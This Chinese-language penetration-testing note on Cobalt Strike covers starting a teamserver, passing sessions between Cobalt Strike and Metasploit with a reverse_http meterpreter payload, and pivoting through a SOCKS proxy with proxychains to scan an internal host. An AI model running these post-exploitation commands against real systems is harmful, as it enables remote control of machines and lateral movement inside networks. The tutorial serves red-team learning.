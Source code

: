 ```yaml
---
title: CS使用
date: 2023-09-03T15:29:52+08:00
updated: 2023-08-24T00:53:50+08:00
categories: 
- 渗透测试
- 工具使用
---
```


### 简单的启动

创建teamserver 

```
./teamserver 192.168.121.135 uu2fu3o
```

使用windows客户端进行连接

## Cs联动msf

### CS派生到msf

启动msf，启动handler监听

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost xxxxxx   (本机ip)
set lport xxxx
exploit
```

CS新建一个外部监听器

![foregin_http](E:\笔记软件\笔记\渗透测试\工具使用\cs\foregin_http.png)

在控制台执行

```
spawn msf
```

### MSF派生会话到CS

```
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
设置MSF不启动监听(不然的话msf会提示执行成功，但没有会话建立，同时CS也不会接收到会话)
set disablepayloadhandler true 
set lhost cs-ip
set lport cs-port
set session rhost-session
run
```

这种方法只能向注入32位的payload，如果注入64位payload会导致目标进程崩溃，无法向64位程序中注入32位payload

## CS代理转发

右键会话，启动socks代理

```
socks 8888
socks stop
```

msf中启动

```
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set srvport 8888
exploit
```

后台即可挂上job,随后编辑proxy文件

```
vim /etc/proxychains.conf
修改代理规则
socks4 转发ip 端口
```

随后使用proxychains.conf+命令的形式使用工具

```
proxychains nmap -Pn -sT -p 3389 192.168.53.138  //例如这里的ip为内网ip，namp扫描需要加-Pn -sT参数，即可成功扫描
```

如果无法使用，或者报错

```
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4 error: no valid proxy found in config
```

执行

```
sudo cat /etc/proxychains4.conf > /etc/proxychains.conf
```

再次修改相应的代理即可
